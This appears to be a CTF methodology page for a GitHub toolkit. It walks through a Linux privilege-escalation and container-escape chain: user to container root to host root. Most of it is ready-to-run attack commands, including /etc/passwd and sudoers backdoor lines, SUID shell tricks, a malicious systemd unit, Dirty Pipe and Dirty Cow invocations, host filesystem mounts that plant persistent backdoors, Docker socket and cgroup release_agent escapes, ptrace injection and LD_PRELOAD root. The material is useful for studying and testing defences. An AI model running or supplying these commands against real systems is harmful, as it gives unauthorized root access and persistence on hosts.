


<div style="background:linear-gradient(135deg,rgba(124,58,237,0.12),rgba(15,160,70,0.08));border:1px solid rgba(124,58,237,0.25);border-radius:12px;padding:1.25rem;margin-bottom:1.5rem;">
<strong>🛠️ Toolkit:</strong> <a href="https://github.com/vulnquest58/container-escape-arsenal" target="_blank">container-escape-arsenal</a> &nbsp;|&nbsp;
<strong>Type:</strong> CTF Methodology &nbsp;|&nbsp;
<strong>Chain:</strong> User → Container Root → Host Root &nbsp;|&nbsp;
<strong>Techniques:</strong> 10+
</div>

## Attack Chain Overview



---

## Phase 1: User → Container Root

### 1.1 SUID Binaries Exploitation

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Exploit: find with exec
find / -exec /bin/sh -p \; -quit 2>/dev/null

# Exploit: vim SUID
vim -c ':!/bin/sh' 2>/dev/null

# Exploit: pkexec (CVE-2021-4034)
# Compile and run CVE-2021-4034 PoC

# Exploit: less / more / man
less /etc/passwd   # then type: !/bin/sh

# Exploit: tee (write to any file)
echo 'root2::0:0:root:/root:/bin/bash' | tee -a /etc/passwd

# Exploit: cp - overwrite /etc/passwd
cp /etc/passwd /tmp/p
echo 'r::0:0:r:/:/bin/sh' >> /tmp/p
cp /tmp/p /etc/passwd
```

> Use `suid_exploit.sh` for automated detection with exploitation hints for every binary found.

### 1.2 Sudo Misconfigurations

```bash
# Check permissions
sudo -l

# NOPASSWD: ALL
sudo su -

# CVE-2021-3156 (Baron Samedit)
sudoedit -s '/' 2>/dev/null   # Segfault = vulnerable

# sudo with tee
echo "root ALL=(ALL) ALL" | sudo tee -a /etc/sudoers

# sudo with cp - overwrite /etc/passwd
sudo cp /tmp/passwd_with_root_backdoor /etc/passwd

# sudo with chmod - give shell SUID
sudo chmod 4777 /bin/bash && /bin/bash -p

# sudo with systemctl - create malicious service
cat > /tmp/pwn.service << 'EOF'
[Service]
Type=simple
ExecStart=/bin/bash -c "chmod 4777 /bin/bash"
[Install]
WantedBy=multi-user.target
EOF
sudo systemctl link /tmp/pwn.service && sudo systemctl start pwn.service
```

### 1.3 Kernel Exploits

| CVE | Kernel | Exploit |
|-----|--------|---------|
| CVE-2016-5195 | 2.x – 4.x | Dirty Cow |
| CVE-2022-0847 | 5.8 – 5.16 | Dirty Pipe |
| CVE-2022-0492 | < 5.17 | cgroup escape |
| CVE-2021-4034 | all | Polkit pkexec |
| CVE-2021-3156 | sudo < 1.9.5p2 | Baron Samedit |

```bash
uname -r   # Identify kernel version

# Dirty Pipe (CVE-2022-0847) - kernels 5.8 to 5.16
# Overwrites read-only page cache (similar to CVE-2026-46331)
gcc dirtypipe.c -o dirtypipe && ./dirtypipe /etc/passwd

# Dirty Cow (CVE-2016-5195)
gcc -pthread dirtycow.c -o dirtycow
./dirtycow /etc/passwd 'root::0:0:root:/root:/bin/bash'
```

---

## Phase 2: Container Escape

### 2.1 Privileged Container Escape

```bash
# Check if privileged
[ -w /dev ] && echo "Privileged container!"

# Mount host filesystem
mkdir -p /mnt/host
mount /dev/sda1 /mnt/host 2>/dev/null

# Verify
[ -f /mnt/host/etc/passwd ] && echo "Host mounted!"

# Deploy backdoors
cp /bin/bash /mnt/host/tmp/.suid_bash && chmod 4777 /mnt/host/tmp/.suid_bash
echo "ALL ALL=(ALL) NOPASSWD: ALL" >> /mnt/host/etc/sudoers

# Spawn root shell
chroot /mnt/host /bin/bash
```

> **Script**: `privileged_escape.sh` — auto-tries sda/vda/nvme, mounts host, deploys backdoors, spawns shell.

### 2.2 Docker Socket Exploitation

```bash
# Check for socket
[ -S /var/run/docker.sock ] && echo "Docker socket found!"

# Method 1: docker CLI
docker run -it --rm --privileged -v /:/host alpine chroot /host /bin/bash

# Method 2: Raw API
curl -s --unix-socket /var/run/docker.sock \
    -X POST http://v1.41/containers/create \
    -H "Content-Type: application/json" \
    -d '{"Image":"alpine","Cmd":["/bin/sh","-c","chroot /host /bin/bash"],"HostConfig":{"Binds":["/:/host"],"Privileged":true}}'
```

> **Script**: `docker_socket_escape.sh` — handles CLI and raw API fallback automatically.

### 2.3 cgroup Release Agent (CVE-2022-0492)

```bash
# Mount cgroup
mkdir /tmp/cg && mount -t cgroup -o rdma cgroup /tmp/cg

# Enable notification + set payload
echo 1 > /tmp/cg/notify_on_release
echo "/bin/bash -c 'chmod 4777 /bin/bash'" > /tmp/cg/release_agent

# Trigger: put self in child cgroup then exit
mkdir /tmp/cg/child
echo $$ > /tmp/cg/child/cgroup.procs
```

> **Script**: `cgroup_escape.sh` — full automated implementation with verification.

### 2.4 runc Vulnerabilities (2025)



```bash
# Check runc version
runc --version

# CVE-2025-31133 - Masked path symlink abuse
cat > Dockerfile << 'EOF'
FROM alpine:latest
RUN ln -sf /proc/sys/kernel/core_pattern /dev/null
EOF
docker build -t malicious . && docker run malicious
```

### 2.5 CAP_SYS_PTRACE Process Injection

```bash
# Verify capability
capsh --print | grep cap_sys_ptrace

# Find host process
ps aux | grep -v container | grep root | head -5

# Attach and inject shellcode
cat > inject.c << 'EOF'
#include <sys/ptrace.h>
#include <sys/wait.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[]) {
    int pid = atoi(argv[1]);
    ptrace(PTRACE_ATTACH, pid, NULL, NULL);
    waitpid(pid, NULL, 0);
    // inject shellcode into process memory
    ptrace(PTRACE_DETACH, pid, NULL, NULL);
    return 0;
}
EOF
gcc inject.c -o inject
./inject $(pgrep -n -x sshd)
```

---

## Phase 3: Host User → Host Root

### 3.1 Quick Wins

```bash
# Sudo
sudo -l
sudo su -

# Docker group (instant root)
groups | grep docker
docker run -it --rm --privileged -v /:/host alpine chroot /host /bin/bash

# lxd group
groups | grep lxd

# /etc/passwd writable
[ -w /etc/passwd ] && echo 'pwn::0:0:root:/root:/bin/bash' >> /etc/passwd && su pwn

# Writable cron
[ -w /etc/cron.d ] && echo "* * * * * root chmod 4777 /bin/bash" > /etc/cron.d/pwn
```

### 3.2 LD_PRELOAD

```bash
# If sudo allows LD_PRELOAD
cat > /tmp/preload.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void __attribute__((constructor)) init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
EOF
gcc -shared -fPIC -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so id
```

---

## Complete Automated Script

> **`ctf_escape_pro.sh`** — runs all three phases automatically, detects environment, reports every attack vector found.

```bash
git clone https://github.com/vulnquest58/container-escape-arsenal.git
cd container-escape-arsenal && chmod +x scripts/*.sh
./scripts/ctf_escape_pro.sh
```

---

## Quick Reference Card

| Phase | Vector | Check | Script |
|-------|--------|-------|--------|
| 1 | SUID | `find / -perm -4000` | `suid_exploit.sh` |
| 1 | Sudo | `sudo -l` | - |
| 1 | /etc/passwd | `[ -w /etc/passwd ]` | - |
| 2 | Privileged | `[ -w /dev ]` | `privileged_escape.sh` |
| 2 | Docker socket | `[ -S /var/run/docker.sock ]` | `docker_socket_escape.sh` |
| 2 | cgroup | `capsh --print` | `cgroup_escape.sh` |
| 3 | Docker group | `groups \| grep docker` | `ctf_escape_pro.sh` |
| 3 | Cron writable | `[ -w /etc/cron.d ]` | - |

---

## Resources

- 🛠️ [container-escape-arsenal on GitHub](https://github.com/vulnquest58/container-escape-arsenal)
- 📖 [Methodology Reference]({{ '/bugbounty/methodology/2026/container-escape/' | relative_url }})
- 📋 [Writeup Entry]({{ '/bugbounty/writeups/container-escape-ctf/' | relative_url }})
- 🔗 [GTFOBins](https://gtfobins.github.io/)
- 🔗 [HackTricks Container Escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security)
